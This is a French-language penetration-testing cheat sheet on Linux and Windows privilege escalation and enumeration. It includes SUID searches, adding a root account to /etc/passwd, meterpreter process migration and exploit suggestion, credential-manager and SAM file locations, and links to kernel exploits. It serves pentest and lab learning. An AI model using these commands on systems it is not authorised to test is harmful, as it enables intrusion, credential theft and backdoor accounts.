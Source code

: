 # Enumération sous Linux

## Shell ergonomique
Shell de base :
```bash
$ python -c "import pty;pty.spawn('/bin/sh')"
```
Shell full interactif :
```bash
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
# faire un Ctrl + Z
$ stty raw -echo
$ fg
```

### Voir les droits de l'utilisateur courant 
```bash
$ sudo -l
```
Si nous avons le droit d'executer un binaire avec les droits roots, regarder sur GTFOBin :
https://gtfobins.github.io/

### Trouver des fichiers avec la permission SUID ou SGID
```bash
$ find / -perm -g=s -type f 2>/dev/null
$ find / -perm -u=s -type f 2>/dev/null
```

### Trouver des dossiers avec le droit d'écrire ou d'executer
```bash
$ find / -writable -type d 2>/dev/null
$ find / -perm -o w -type d 2>/dev/null
$ find / -perm -o x -type d 2>/dev/null
``` 

### Lister les processus qui tournent
```bash
$ ps aux
```

### lister les port ouverts
```bash
$ netstat -anop
```

### Créer un utilisateur
Faire un user dans /etc/passwd, sachant que le format est : **{username}:{resultatcommandecidessous}:0:0:root:/bin/bash**
```bash
$ openssl passwd -1 -salt {username} {password}
```

### Binaire pour énumération :
Avec LinEnum :</br>
https://github.com/rebootuser/LinEnum</br>
Avec LinPeas :</br>
lien</br>
Avec Linux-Priv-Checker :</br>
https://gist.github.com/sh1n0b1/e2e1a5f63fbec3706123</br>

### DirtyCow (suivant la version du linux)
https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs

### Kernel exploits (suivant la version du noyau)
https://github.com/xairy/kernel-exploits
https://github.com/SecWiki/linux-kernel-exploits

### Checker si y'a moyen de faire une escalation
https://github.com/pentestmonkey/unix-privesc-check

### Linux privilege escalation guide
http://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/

# Enumération sous windows
###Privilège escalation :
## Checker les logiciels et si des creds sont dedans (ancien cred ou d'actualité (password reuse))
## Utiliser sysinfo de meterpreter pour les infos
## Penser a migrer le processus en 64 bits si il est en 32 (ou simplement pour la discrétin tmtc)
meterpreter > sysinfo
meterpreter > ps
meterpreter > migrate {PID}

## On tente de voir les différents exploits dispo, sous meterpreter 
meterpreter > run post/multi/recon/local_exploit_suggester

## Living Off the Land (LOLBINS)
https://github.com/LOLBAS-Project/LOLBAS

## Enum de base 
> systeminfo				= What is the OS and architecture ?
> whoami				= Qui suis-je ?
> whoami /priv				= Mes privilèges ?
> qwinsta				= Quel autre utilisateur est connecté ?
> net localgroup			= Quels sont les groupes sur le système ?
> net localgroup Administrators		= Qui appartient au groupe Administrators ?
--- Quelques choses d'intéréssant dans le credential Manager ?
> cmdkey /list
> dir C:\Users\username\AppData\Local\Microsoft\Credentials\
> dir C:\Users\username\AppData\Roaming\Microsoft\Credentials\
> Get-ChildItem -Hidden C:\Users\username\AppData\Local\Microsoft\Credentials\
> Get-ChildItem -Hidden C:\Users\username\AppData\Roaming\Microsoft\Credentials\
--- 
--- On a accès à la base SAM et aux fichiers system ?
%SYSTEMROOT%\repair\SAM
%SYSTEMROOT%\System32\config\RegBack\SAM
%SYSTEMROOT%\System32\config\SAM
%SYSTEMROOT%\repair\system
%SYSTEMROOT%\System32\config\SYSTEM
%SYSTEMROOT%\System32\config\RegBack\system
---
--- Quels sont les logiciels installés ?
dir /a "C:\Program Files"
dir /a "C:\Program Files (x86)"
reg query HKEY_LOCAL_MACHINE\SOFTWARE
Get-ChildItem 'C:\Program Files', 'C:\Program Files (x86)' | ft Parent,Name,LastWriteTime
Get-ChildItem -path Registry::HKEY_LOCAL_MACHINE\SOFTWARE | ft Name*
---
--- Est-ce que des dossiers ont des permissions trop larges ?
icacls "C:\Program Files\*" 2>nul | findstr "(F)" | findstr "Everyone"
icacls "C:\Program Files (x86)\*" 2>nul | findstr "(F)" | findstr "Everyone"
icacls "C:\Program Files\*" 2>nul | findstr "(F)" | findstr "BUILTIN\Users"
icacls "C:\Program Files (x86)\*" 2>nul | findstr "(F)" | findstr "BUILTIN\Users" 
Get-ChildItem 'C:\Program Files\*','C:\Program Files (x86)\*' | % { try { Get-Acl $_ -EA SilentlyContinue | Where {($_.Access|select -ExpandProperty IdentityReference) -match 'Everyone'} } catch {}} 

Get-ChildItem 'C:\Program Files\*','C:\Program Files (x86)\*' | % { try { Get-Acl $_ -EA SilentlyContinue | Where {($_.Access|select -ExpandProperty IdentityReference) -match 'BUILTIN\Users'} } catch {}} 
---
--- On peut upload accesschk (de Sysinternals) pour checker les fichiers et dossiers dispo en écriture
accesschk.exe -qwsu "Everyone" *
accesschk.exe -qwsu "Authenticated Users" *
accesschk.exe -qwsu "Users" *
---
--- Quels sont les processus/services en cours d'utilisation ?
tasklist /svc
tasklist /v
net start
sc query
---
--- Quels sont les taches planifiés ?
schtasks /query /fo LIST 2>nul | findstr TaskName
dir C:\windows\tasks
---
--- Qu'est-ce qui est lancé au démarrage ?
wmic startup get caption,command
dir "C:\Documents and Settings\All Users\Start Menu\Programs\Startup"
dir "C:\Documents and Settings\%username%\Start Menu\Programs\Startup"
Get-ChildItem "C:\Users\All Users\Start Menu\Programs\Startup"
Get-ChildItem "C:\Users\$env:USERNAME\Start Menu\Programs\Startup"
---

[[[NETWORKING]]]